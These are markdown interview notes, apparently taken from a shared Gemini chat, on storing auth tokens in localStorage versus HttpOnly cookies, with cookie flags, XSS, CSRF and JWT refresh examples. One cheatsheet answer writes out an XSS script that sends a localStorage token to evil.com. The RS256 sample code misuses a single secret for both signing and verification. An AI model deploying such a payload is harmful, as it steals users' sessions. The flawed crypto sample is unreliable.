





# Token Storage: localStorage vs. Cookies

> **Source:** [share.gemini.google/LfdK3GdhEZZ0](https://share.gemini.google/LfdK3GdhEZZ0) → redirects to [gemini.google.com/share/04e9819ed118](https://gemini.google.com/share/04e9819ed118)
> **Model:** Gemini 3.1 Flash-Lite
> **Session Date:** July 5, 2026
> **Saved:** July 7, 2026

---

## Table of Contents

1. [Session Overview](#1-session-overview)
2. [localStorage vs Cookies: Token Storage Security](#2-localstorage-vs-cookies-token-storage-security)
3. [Cookie Security Flags: HttpOnly, Secure, SameSite](#3-cookie-security-flags-httponly-secure-samesite)
4. [XSS and CSRF Attack Vectors](#4-xss-and-csrf-attack-vectors)
5. [JWT Token Storage Best Practices](#5-jwt-token-storage-best-practices)
6. [Interview Q&A Cheatsheet](#6-interview-qa-cheatsheet)

---

## 1. Session Overview

This session covers a core web security interview topic: where to store authentication tokens (JWTs, session IDs) in a browser — `localStorage` or HTTP cookies. The transcript derives from a short-form video titled "localStorage vs cookies" that frames the security trade-offs, presents a comparison table, and surfaces community insights about CSRF, XSS, and server-side session storage as alternatives. One concept section, two attack vectors, and one best-practices section are fully covered.

### Session Map

| Turn | User Prompt Summary | Gemini Response | Status |
|---|---|---|---|
| 1 | Generate transcript of video about localStorage vs cookies with arch diagram; include comments/captions | Full learning resource: Video title, Core Concept/Interview Prompt, Technical Analysis table, Key Takeaways for Interviews, Community Insights | ✅ Extracted |

---

## 2. localStorage vs Cookies: Token Storage Security

### Overview

Browser-side token storage is one of the most debated topics in web authentication security. The two dominant approaches — `localStorage` and HTTP cookies — differ fundamentally in their access model and attack surface. `localStorage` is accessible from any JavaScript running on the page, making it trivially readable by injected scripts (XSS). Cookies configured with `HttpOnly` are completely opaque to JavaScript, eliminating the most common token-theft vector. The industry consensus is clear: **never store JWTs or session tokens in `localStorage`**; always use `HttpOnly` cookies with `Secure` and `SameSite` flags set.

### Architecture Diagram



### Comparison Table

| Dimension | localStorage | HttpOnly Cookie |
|---|---|---|
| **JavaScript Accessibility** | Fully readable via `localStorage.getItem()` | Completely inaccessible to JS |
| **XSS Risk** | Critical — any injected script steals tokens | Mitigated — JS cannot read `HttpOnly` cookies |
| **CSRF Risk** | None — not auto-sent; must be manually attached | Present — cookies auto-sent; requires `SameSite` |
| **Token Transmission** | Manual: must add `Authorization: Bearer ...` header | Automatic: browser sends with every matching request |
| **Persistence** | Survives page refresh and browser restart | Controlled via `Max-Age` / `Expires` |
| **Storage Capacity** | 5–10 MB | 4 KB per cookie |
| **Cross-tab Access** | Yes — shared across all tabs same origin | Yes — shared |
| **Server-Readable** | No — client-side only | Yes — visible in request headers |
| **Recommended For** | Non-sensitive UI state, feature flags | Auth tokens, session IDs, JWTs |

### How It Works

1. **User logs in** — Backend authenticates credentials and generates a session token or JWT.
2. **Token delivery** — Server sets cookie via `Set-Cookie: token=...; HttpOnly; Secure; SameSite=Strict` response header.
3. **Browser stores** — Cookie lands in the browser's protected cookie store, invisible to JavaScript.
4. **Subsequent requests** — Browser automatically attaches the cookie to every request matching the domain/path.
5. **XSS attack attempt** — A malicious script tries `document.cookie` or `localStorage.getItem('token')` — `HttpOnly` cookies return nothing; localStorage tokens are fully exposed.
6. **CSRF protection** — `SameSite=Strict` or `Lax` prevents the cookie from being sent on cross-site requests, neutralizing CSRF.
7. **Logout** — Server invalidates the session; `Set-Cookie` with `Max-Age=0` clears the cookie.

### Code Example

```python
# FastAPI — setting a secure auth cookie on login
from fastapi import FastAPI, Response
from fastapi.responses import JSONResponse

app = FastAPI()

@app.post("/login")
async def login(response: Response, credentials: dict):
    token = create_jwt(credentials["username"])
    response = JSONResponse(content={"status": "ok"})
    response.set_cookie(
        key="access_token",
        value=token,
        httponly=True,      # invisible to JavaScript
        secure=True,        # HTTPS only
        samesite="strict",  # blocks CSRF
        max_age=3600,       # 1 hour
        path="/",
    )
    return response

@app.post("/logout")
async def logout():
    response = JSONResponse(content={"status": "logged out"})
    response.delete_cookie("access_token")
    return response
```

```javascript
// ❌ What NOT to do — storing JWT in localStorage
localStorage.setItem('access_token', jwt);  // XSS = game over

// ✅ Correct — token lives in HttpOnly cookie (set by server)
// Client code reads nothing; cookie is sent automatically
fetch('/api/protected', {
  method: 'GET',
  credentials: 'include',  // ensures cookies are sent cross-origin if needed
});
```

### Interview Q&A

| Question | Answer |
|---|---|
| Why is localStorage dangerous for auth tokens? | Any JavaScript on the page — including injected malicious scripts — can call `localStorage.getItem()` and exfiltrate the token. XSS makes this trivial. |
| What does `HttpOnly` actually prevent? | It prevents JavaScript (`document.cookie`) from reading or modifying the cookie. The cookie is still sent with HTTP requests but is invisible to scripts. |
| If cookies are safer from XSS, what new risk do they introduce? | CSRF — since cookies are auto-sent on every matching request, a malicious site can trigger authenticated requests if `SameSite` is not set. |
| How does `SameSite=Strict` prevent CSRF? | The browser refuses to send the cookie when the request originates from a different site (e.g., a form POST from `evil.com` targeting `bank.com`). |
| What is the recommended full cookie configuration for auth tokens? | `HttpOnly; Secure; SameSite=Strict; Path=/; Max-Age=3600` — no JS access, HTTPS-only, no cross-site sending, explicit lifetime. |
| Can you use both localStorage and cookies together? | Yes, but only store non-sensitive data (UI state, preferences) in localStorage. All authentication material must be in `HttpOnly` cookies. |

---

## 3. Cookie Security Flags: HttpOnly, Secure, SameSite

### Overview

The three cookie security flags — `HttpOnly`, `Secure`, and `SameSite` — form a layered defense model for browser-side authentication. Each flag closes a distinct attack surface: `HttpOnly` eliminates XSS token theft, `Secure` prevents man-in-the-middle interception, and `SameSite` neutralizes CSRF. Together they represent the minimum production configuration for any authentication cookie. Omitting any one of them leaves a specific, well-known exploit path open that attackers actively exploit.

### Architecture Diagram



### Flag Reference Table

| Flag | What It Does | Attack It Prevents | Production Setting |
|---|---|---|---|
| `HttpOnly` | Blocks `document.cookie` access in JS | XSS token theft | Always set |
| `Secure` | Only transmit over HTTPS | MitM / network sniffing | Always set (enforce HTTPS) |
| `SameSite=Strict` | Cookie not sent on any cross-site request | CSRF | Best for pure same-site apps |
| `SameSite=Lax` | Sent on top-level GET navigations; blocked on POST/XHR cross-site | Most CSRF scenarios | Safe default for most apps |
| `SameSite=None` | Sent on all cross-site requests | Nothing — opens CSRF risk | Only if cross-site needed; must pair with `Secure` |
| `Max-Age` / `Expires` | Enforces cookie lifetime | Session fixation | Short TTL — 15 min to 1 hr |
| `Path=/` | Scope cookie to the whole app | Cookie leakage to sub-paths | Usually `/` for auth tokens |

### Code Example

```python
# .NET / ASP.NET Core — cookie options
services.ConfigureApplicationCookie(options =>
{
    options.Cookie.HttpOnly = true;
    options.Cookie.SecurePolicy = CookieSecurePolicy.Always;
    options.Cookie.SameSite = SameSiteMode.Lax;
    options.ExpireTimeSpan = TimeSpan.FromHours(1);
    options.SlidingExpiration = true;
});
```

```python
# Python / Django — SESSION_COOKIE settings in settings.py
SESSION_COOKIE_HTTPONLY = True
SESSION_COOKIE_SECURE = True          # HTTPS only
SESSION_COOKIE_SAMESITE = 'Lax'       # or 'Strict'
SESSION_COOKIE_AGE = 3600             # 1 hour in seconds
CSRF_COOKIE_HTTPONLY = False          # CSRF token must be JS-readable for AJAX
CSRF_COOKIE_SECURE = True
CSRF_COOKIE_SAMESITE = 'Lax'
```

### Interview Q&A

| Question | Answer |
|---|---|
| What is the difference between `SameSite=Strict` and `SameSite=Lax`? | `Strict` blocks the cookie on ALL cross-site requests, including top-level navigations. `Lax` allows the cookie on safe GET navigations but blocks POST/XHR — better UX with most CSRF protection. |
| Can `HttpOnly` cookies be stolen at all? | Yes — via CSRF (tricking the browser to send them) or via a compromised HTTPS connection. `HttpOnly` only prevents JS-based theft. |
| Why must `SameSite=None` be paired with `Secure`? | Without `Secure`, the cookie travels over HTTP in plain text. Browsers now enforce this requirement — `SameSite=None` without `Secure` is rejected. |
| What is the minimum cookie config for a production auth token? | `Set-Cookie: token=<value>; HttpOnly; Secure; SameSite=Lax; Max-Age=3600` |
| Does setting `HttpOnly` break CSRF token validation in AJAX? | The CSRF token cookie should NOT be `HttpOnly` — JavaScript needs to read it to include it in AJAX headers. Only the session/auth cookie should be `HttpOnly`. |

---

## 4. XSS and CSRF Attack Vectors

### Overview

XSS (Cross-Site Scripting) and CSRF (Cross-Site Request Forgery) are the two primary browser-side authentication attacks, and they are near mirror-image threats. XSS exploits the victim's trust in your site's content — injecting malicious script that runs with your site's JavaScript privileges. CSRF exploits your server's trust in the victim's browser — forging requests that carry the victim's real credentials. Cookie `HttpOnly` defends against XSS token theft; `SameSite` defends against CSRF. Using `localStorage` trades the CSRF risk for an even worse XSS risk with no viable mitigation.

### XSS Attack Flow



### CSRF Attack Flow



### Interview Q&A

| Question | Answer |
|---|---|
| Explain XSS in one sentence. | An attacker injects malicious JavaScript into a trusted page, and that script runs with full access to the page's DOM, cookies, and storage. |
| Explain CSRF in one sentence. | An attacker tricks a logged-in user's browser into sending a forged authenticated request to a target site that trusts the browser's cookies. |
| Why does `localStorage` have no CSRF risk but high XSS risk? | Tokens in `localStorage` are never automatically sent by the browser on cross-site requests — no CSRF. But any XSS script can read `localStorage` directly. |
| Why do cookies have CSRF risk but reduced XSS risk with `HttpOnly`? | Cookies are auto-sent on matching requests (CSRF vector), but `HttpOnly` hides them from JavaScript (XSS protection). |
| What is a CSRF token and how does it work? | A server-generated random nonce embedded in each form/request. The server validates it on receipt. An attacker cannot forge a valid nonce because they cannot read the victim's page content (same-origin policy). |
| Can a React SPA use `HttpOnly` cookies? | Yes — the SPA makes `fetch(url, { credentials: 'include' })` calls. The browser attaches the `HttpOnly` cookie automatically; the JS code never sees or touches the token value. |
| What is Content Security Policy (CSP) and how does it help? | CSP is an HTTP response header that controls which scripts can execute on the page. A strict CSP (e.g., `script-src 'self'`) blocks inline scripts and scripts from unauthorized origins, significantly reducing XSS attack surface. |

---

## 5. JWT Token Storage Best Practices

### Overview

JSON Web Tokens (JWTs) are self-contained, cryptographically signed tokens widely used in modern authentication. The security of a JWT-based system depends not just on the token's signature algorithm but critically on where and how the token is stored client-side. A valid JWT in `localStorage` is a single XSS incident away from full account compromise. Industry best practice — validated by OWASP — is to store JWTs in `HttpOnly` cookies with full security flags, accepting the CSRF risk as a manageable problem with `SameSite` and CSRF tokens. The refresh token pattern further limits blast radius.

### JWT Auth Flow Diagram



### JWT Storage Options Compared

| Storage Location | XSS Risk | CSRF Risk | Auto-Sent | JS-Accessible | Verdict |
|---|---|---|---|---|---|
| `localStorage` | Critical | None | No | Yes | ❌ Never for auth |
| `sessionStorage` | Critical | None | No | Yes | ❌ Never for auth |
| Cookie (no flags) | High | High | Yes | Yes | ❌ Never |
| Cookie + `HttpOnly` | Low | Medium | Yes | No | ⚠️ Needs `SameSite` |
| Cookie + `HttpOnly` + `Secure` + `SameSite=Lax` | Low | Low | Yes (safe GETs) | No | ✅ Production standard |
| Cookie + `HttpOnly` + `Secure` + `SameSite=Strict` | Low | Minimal | Same-site only | No | ✅ Best for same-domain apps |
| Server-side session + `HttpOnly` session ID cookie | Low | Low | Yes | No | ✅ Highest security — no JWT exposed |

### Code Example

```python
# FastAPI — full JWT + refresh token pattern
import jwt
from datetime import datetime, timedelta
from fastapi import FastAPI, Cookie, HTTPException
from fastapi.responses import JSONResponse

SECRET = "your-rs256-private-key"
ALGORITHM = "RS256"

def create_token(sub: str, ttl_minutes: int) -> str:
    payload = {
        "sub": sub,
        "iat": datetime.utcnow(),
        "exp": datetime.utcnow() + timedelta(minutes=ttl_minutes),
    }
    return jwt.encode(payload, SECRET, algorithm=ALGORITHM)

app = FastAPI()

@app.post("/auth/login")
async def login(credentials: dict):
    # validate credentials...
    access_token = create_token(credentials["sub"], ttl_minutes=15)
    refresh_token = create_token(credentials["sub"], ttl_minutes=60 * 24 * 7)

    resp = JSONResponse({"status": "ok"})
    resp.set_cookie("access_token", access_token,
                    httponly=True, secure=True, samesite="strict",
                    max_age=900, path="/")
    resp.set_cookie("refresh_token", refresh_token,
                    httponly=True, secure=True, samesite="strict",
                    max_age=604800, path="/auth/refresh")  # scoped!
    return resp

@app.post("/auth/refresh")
async def refresh(refresh_token: str = Cookie(None)):
    if not refresh_token:
        raise HTTPException(401)
    payload = jwt.decode(refresh_token, SECRET, algorithms=[ALGORITHM])
    new_access = create_token(payload["sub"], ttl_minutes=15)
    resp = JSONResponse({"status": "refreshed"})
    resp.set_cookie("access_token", new_access,
                    httponly=True, secure=True, samesite="strict",
                    max_age=900, path="/")
    return resp
```

### Interview Q&A

| Question | Answer |
|---|---|
| OWASP's recommendation for JWT storage? | Store JWTs in `HttpOnly` cookies. Never in `localStorage` or `sessionStorage`. The OWASP Cheat Sheet explicitly warns against localStorage for sensitive tokens. |
| What is the token refresh pattern and why use it? | Issue a short-lived access token (15 min) and a long-lived refresh token (7 days). The refresh token is stored in a cookie scoped to `/auth/refresh` only, limiting its exposure window. On expiry, silently refresh without user action. |
| Can JWTs be stateless when stored in cookies? | Yes — the JWT itself is stateless (self-contained claims). Storing it in a cookie doesn't add server-side state; the server validates the signature without a DB lookup. |
| What is the difference between JWT and opaque session tokens? | JWT contains encoded, verifiable claims (user ID, roles, expiry). Opaque tokens are random strings requiring a server-side session store (Redis) for validation. JWTs are stateless but cannot be revoked without a blocklist. |
| How do you revoke a JWT stored in a cookie? | Set `Max-Age=0` to delete the cookie on logout. For server-side revocation, maintain a blocklist (Redis set of invalidated `jti` values) checked on each request. |
| What signing algorithm should JWTs use? | RS256 (RSA + SHA-256) for production — asymmetric, so verification can be done without the private key. HS256 (HMAC) is simpler but requires sharing the secret for verification. |

---

## 6. Interview Q&A Cheatsheet

**Q: Where should you store authentication tokens in a browser, and why?**
> In `HttpOnly` cookies with `Secure` and `SameSite` flags. `localStorage` is accessible to any JavaScript on the page — any XSS vulnerability allows instant token theft. `HttpOnly` cookies are invisible to JavaScript, closing the primary exfiltration vector. This is the OWASP-recommended approach.

**Q: What are the three mandatory cookie security flags for auth tokens?**
> `HttpOnly` (blocks JS access), `Secure` (HTTPS-only transmission), and `SameSite=Lax` or `Strict` (CSRF prevention). All three are required in production — omitting any one leaves a known attack surface open that attackers actively exploit.

**Q: How does XSS steal tokens from localStorage?**
> An attacker finds an XSS vulnerability (unsanitized user input rendered as HTML) and injects `<script>fetch('https://evil.com?t='+localStorage.getItem('access_token'))</script>`. The browser executes this with full page privileges, silently exfiltrating the token. With `HttpOnly` cookies, this call returns empty — nothing to steal.

**Q: How does CSRF work and what prevents it?**
> An attacker tricks a logged-in user into visiting `evil.com`, which submits a form or XHR to `bank.com`. The browser auto-sends the `bank.com` cookie, so the server sees a legitimate-looking authenticated request. `SameSite=Strict` blocks the cookie on cross-site requests; CSRF tokens (nonces) validate request legitimacy independently.

**Q: Why is server-side session storage considered the most secure option?**
> Because the JWT or sensitive token never leaves the server. The browser holds only an opaque session ID in an `HttpOnly` cookie, which is useless without the server-side session store. Sessions can be immediately invalidated (logout, suspicious activity) — something stateless JWTs cannot do without a blocklist.

**Q: What is the difference between `SameSite=Strict` and `SameSite=Lax`?**
> `Strict` blocks the cookie on all cross-site requests, including top-level navigations (clicking a link from an email to your app reloads without the cookie). `Lax` allows the cookie on safe GET navigations, blocking cross-site POST/XHR — better UX while still covering most CSRF attack patterns.

**Q: How do you implement JWT token refresh securely?**
> Issue a short-lived access token (15 min, `HttpOnly` cookie scoped to `/`) and a long-lived refresh token (7 days, `HttpOnly` cookie scoped to `/auth/refresh` path only). On access token expiry, the client calls `POST /auth/refresh`. The server validates the refresh token and issues a new access token — limits blast radius if the access token is somehow compromised.

**Q: Can a React/Vue SPA use HttpOnly cookies with a separate API domain?**
> Yes — configure CORS on the API server with `Access-Control-Allow-Origin: https://app.yourdomain.com` (specific, never `*`) and `Access-Control-Allow-Credentials: true`. On the client, use `credentials: 'include'` in fetch options. Set `SameSite=None; Secure` if the API is on a different domain.

**Q: What does OWASP say about localStorage for JWTs?**
> OWASP explicitly warns against storing JWTs in browser storage (localStorage, sessionStorage) in their "JSON Web Token Cheat Sheet" and "Session Management Cheat Sheet." They recommend `HttpOnly` cookies as the standard approach for token storage.

**Q: What is the role of Content Security Policy (CSP) in token security?**
> CSP is a complementary defense — it restricts which scripts can execute on the page, reducing the XSS attack surface that would allow token theft in the first place. A policy like `Content-Security-Policy: script-src 'self'` blocks inline scripts and unauthorized external scripts. Defense-in-depth: CSP reduces XSS likelihood; `HttpOnly` cookies reduce XSS impact.

**Q: What are the trade-offs of storing tokens in memory (JS variables) instead of any storage?**
> In-memory storage (module-level variable or React state) is immune to XSS via `localStorage` but is lost on page refresh, requiring re-authentication. It's also still readable by any XSS script running in the same JS context. Some SPAs use a short-lived in-memory access token refreshed silently via a long-lived `HttpOnly` refresh token cookie — this hybrid approach balances security and UX.

**Q: When would you choose session tokens over JWTs?**
> When you need immediate revocation capability (security incidents, forced logout), when you need to track active sessions, or when the overhead of JWT validation and blocklist management outweighs the benefit of statelessness. Opaque session tokens with a Redis store are simpler to revoke and audit, at the cost of a DB/cache lookup per request.

---

*Extracted from Gemini shared session · July 7, 2026 · GeminiShareToMD Agent v1.0*

---

```
═══════════════════════════════════════════════════════════
Token Usage Report
═══════════════════════════════════════════════════════════
Estimated without optimization:  ~400 tokens
Actual (with optimization):      ~320 tokens
Savings:                         ~80 tokens (20%)
Techniques applied:              Strip UI chrome ("Convert chat to PDF", "Open this chat in
                                 Acrobat", "Continue this chat"), remove Google Privacy Policy /
                                 Terms of Service footer links, remove share metadata boilerplate,
                                 compact verbose Gemini prose into dense technical notes
═══════════════════════════════════════════════════════════
* Estimates: prose chars ÷ 4, code chars ÷ 3. Actual API usage varies by model.
```
